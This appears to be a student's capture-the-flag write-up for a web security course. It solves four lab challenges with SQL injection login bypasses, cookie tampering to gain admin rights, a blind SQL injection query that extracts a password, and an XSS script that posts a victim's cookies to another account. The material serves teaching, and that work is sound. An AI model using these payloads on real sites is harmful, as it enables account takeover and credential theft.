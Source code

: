 # 1
> Username: `testing`
## Solution
type `' OR name like '%%` in the username field to get match any username

type `' OR password like '%%` in the password field to match any password

---

# 2
> Username: `testing`
## Solution
1. Downloaded a cookie modifying browser extension from [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related)
2. Modified the `username` cookie, setting the value to `admin`
3. Modified the `admin` cookie, setting the value to `True`
4. Reloaded the page

---

# 3
> Username: `testing`
## Solution
1. Ran this query on the game multiple times to construct the password `53768999`
2. Guessed that dog's name was scotty (from previous problems)

## Code
```sql
1' AND ID=(select COUNT(*) from users where name='admin' AND substr(password,1,1) BETWEEN '5' AND '5') OR ID='
```

---

# 4
> Username: `testing`
## Solution
Sent the below code as the message to `admin`, the received message was 
```js
{
    sender:admin,
    recipient:reallynow,
    message:
        username=admin; 
        password=admin; 
        flag=csce465{xss_ftw_4f93062d}
}
```

## Code
```html
<script>
    var formData = new FormData();
    formData.append('message', document.cookie);
    formData.append('recipient', 'reallynow');
    formData.append('name', 'admin');

    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://csce465shell.martincarlisle.com/problem/19369/sendmessage.php', true);
    xhr.send(formData);

    //# sourceURL=dynamicScript.js 
</script>
```
## Help Received
[https://stackoverflow.com/questions/58217910/xmlhttprequest-not-sending-post-data](https://stackoverflow.com/questions/58217910/xmlhttprequest-not-sending-post-data)